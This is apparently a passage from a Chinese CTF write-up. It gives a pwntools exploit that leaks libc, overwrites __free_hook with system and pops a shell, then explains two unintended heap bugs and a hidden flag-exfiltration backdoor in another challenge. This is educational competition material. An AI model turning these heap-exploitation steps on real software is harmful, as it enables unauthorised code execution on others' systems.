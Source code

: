```python
libc.address = u64(r.recvuntil(b'\x7f')[-6:]+b'\x00\x00')-\
	1104-0x10-libc.sym['__malloc_hook']

p = 'rm pad0'
sla(p)

p = b'A'*0x130
p+= p64(0)+p64(0x51)
p+= p64(libc.sym['__free_hook']-4)
p+= p64(0)*8+p64(0x51)+p64(0)*6
sla(p)

p = 'touch final1\x00'
sla(p)

p = 'echo /bin/sh -> final1'
sla(p)

p = b'touch '+p64(libc.sym['system'])
sla(p)

p = 'rm final1'
sla(p)

log.success(hex(libc.address))
r.interactive()
```

### 非预期

（早知道不设计洞了，让大佬🚪ri就完事了orz）

最后提交的wp中，只有r4战队使用的是预期解，非预期有两种

1. cp中，当目标文件内容⻓度小于源文件内容长度，realloc返回值赋给了结构体指针，又能够以指针+0x18索引进行写操作，于是存在任意写，这也是大部分战队提交的wp中利用的漏洞。这里纯属本人沙贝了不知道为啥少打了东西😢

2. 还有一个洞在`cd`中`strcat`拼接路径时，当前路径名称存在bss段，其下方放了一个指向当前目录节点的指针，对路径字符串的长度限制不到位于是存在off by one。然而由于使用的是`strcat`，复制后会添加上截断字符，会把指针截断，所以最终只能用作off by null使用，可以用来控制节点。（polaris大佬的做法）


## zigzag_embryo

> 获取flag0

逆向分析，发现main函数前还套了一层

![](https://md.buptmerak.cn/uploads/upload_3113d16b9e3173ff331517b6cd601d6b.png)

发现存在后门函数，菜单0xdeadbeef进入，再输入ip和port就可以把flag输出到服务器上

![](https://md.buptmerak.cn/uploads/upload_5df119f3f1f7a64504d34cd058f411b4.png)
